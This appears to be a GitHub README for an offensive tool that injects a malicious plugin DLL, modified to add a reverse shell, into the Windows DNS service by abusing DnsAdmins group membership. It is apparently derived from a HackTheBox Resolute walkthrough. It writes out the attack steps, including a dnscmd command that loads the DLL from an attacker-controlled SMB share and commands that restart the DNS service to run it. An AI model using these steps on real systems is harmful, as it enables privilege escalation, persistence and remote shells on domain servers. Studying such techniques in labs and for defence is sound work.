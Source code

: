 # dns-exe-persistance
sample plugin dll for windows DNS server: ServerLevelPluginDll, inject a malicious DLL plugin into the DNS service (compromised user is a member of DNSAdmin group on the target machine)

Modified and added a reverse shell \
From IppSec's solution for Resolute@HTB



Compile DLL, transfer it to a remote SMB Share \
On victim machine (with user belongs to group DnsAdmins): ```dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.x.x.x\$SHARENAME\$DLLNAME.dll``` \
Restart DNS Server on the victim machine: ```sc.exe stop dns && sc.exe start dns```


